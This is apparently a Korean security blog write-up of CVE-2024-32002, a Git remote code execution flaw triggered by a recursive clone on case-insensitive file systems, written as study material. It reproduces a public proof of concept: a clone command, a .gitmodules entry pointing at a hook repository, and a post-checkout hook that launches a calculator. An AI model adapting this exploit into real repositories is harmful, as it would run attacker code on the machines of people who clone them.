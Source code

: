 ```yaml
---
title: "CVE-2024-32002 Exploiting Git RCE via git clone"
description: "git clone 명령만으로 RCE 취약점이 발생한다..?"
author: bde574786
date: 2024-10-27 21:55:00 +0900
categories: [Recent Security Trends]
tags: [빡공팟, 콘테스트 네뷸라, 최근 보안 이슈, CVE, Git]
image: 
---
```


## **Details**
Git의 git clone 기능에는 저장소의 **하위 모듈(submodule)**을 재귀적으로 함께 클론하는 `--recursive`  옵션이 포함되어 있다. 또한, Git은 **심볼릭 링크(Symbolic Link)**를 지원하여, 이를 통해 저장소의 다른 부분을 참조할 수 있다.
이 취약점은 대소문자를 구분하지 않는 파일 시스템 (Windows, MacOS)에서 발생한다.


## **Affected Versions**
- v2.45.0
- v2.44.0
- <= v2.43.3
- <= v2.42.1
- v2.41.0
- <= v2.40.1
- <= v2.39.3

## **PoC**
⚠️ Warning: 해당 PoC 실행 시 반드시 허가받은 시스템에서만 수행해야 한다.

환경 구축의 제한사항과 편의를 고려하여 이미 만들어진 PoC를 테스트하였다.

> [https://github.com/amalmurali47/git_rce?tab=readme-ov-file](https://github.com/amalmurali47/git_rce?tab=readme-ov-file)

<br>
- Git을 사용해 git_rce라는 이름의 원격 Repository를 클론하는 동시에, 서브모듈을 함께 클론한다.
```bash
git clone --recursive git@github.com:amalmurali47/git_rce.git
```

<br>
- 아래 파일은 Git Repository에서 서브모듈을 추가할 때 사용되는 .gitmodules 구성 파일이다.
- Git이 서브모듈을 클론할 때, 현재 로컬 Repository 루트 경로에 A/modules/x 폴더가 생성되며 url에 지정된 원격 Repository의 악성 후크 파일이 A/modules/x에 클론될 것이다.
```bash
[submodule "x/y"]
	path = A/modules/x  # Local path for the submodule
	url = git@github.com:amalmurali47/hook.git  # Remote repository URL
```

<br>
- 위 서브모듈 url은 [https://github.com/amalmurali47/hook](https://github.com/amalmurali47/hook) 저장소를 가리키고 있으며 해당 저장소에는 hook/post-checkout 경로에는 공격자가 의도한 악성 스크립트가 작성되어 있다.
```bash
#!/bin/bash
echo "amal_was_here" > /tmp/pwnd
calc.exe
open -a Calculator.app
```

<br>
Boom..!!<br>
![image.png](assets/security-issue/2024-10-27/img-001.png)

<br>
## **How It Works**
- **특수 경로의 심볼릭 링크 설정**
    - 공격자는 .git을 가리키는 심볼릭 링크를 저장소 안에 생성하고, 이 링크의 이름을 a로 설정한다.
    - 서브모듈의 경로는 대소문자를 변형하여 설정되며, 이는 대소문자 구분을 하지 않는 파일 시스템(Windows, Mac)의 취약점을 겨냥한다.
- **서브모듈 경로 충돌 유도**
    - Git은 서브모듈을 A/modules/x 경로에 클론하려고 시도하지만, 대소문자 구분이 없는 파일 시스템에서 A와 a가 동일하게 인식된다.
- **경로 우회로 악성 후크 위치 설정**
    - 결과적으로 Git은 서브모듈의 후크 스크립트를 .git/hooks 아래에 배치하게 된다.
    - 이 후크는 공격자의 명령이 포함되어 사용자의 시스템에서 RCE가 발생하게 된다.
<br>
따라서, 사용자가 단순히 해당 Repository를 클론하기만 해도 공격자가 의도한 악성 코드가 실행될 수 있다.
해당 취약점은 Git의 core.sysmlinks 기능이 활성화된 Windows와 MacOS에 취약하다.

<br>
## **Reference**
[https://github.com/amalmurali47/git_rce](https://github.com/amalmurali47/git_rce)<br>
[https://github.com/git/git/security/advisories/GHSA-8h77-4q3w-gfgv](https://github.com/git/git/security/advisories/GHSA-8h77-4q3w-gfgv)<br>
[https://amalmurali.me/posts/git-rce/](https://amalmurali.me/posts/git-rce/)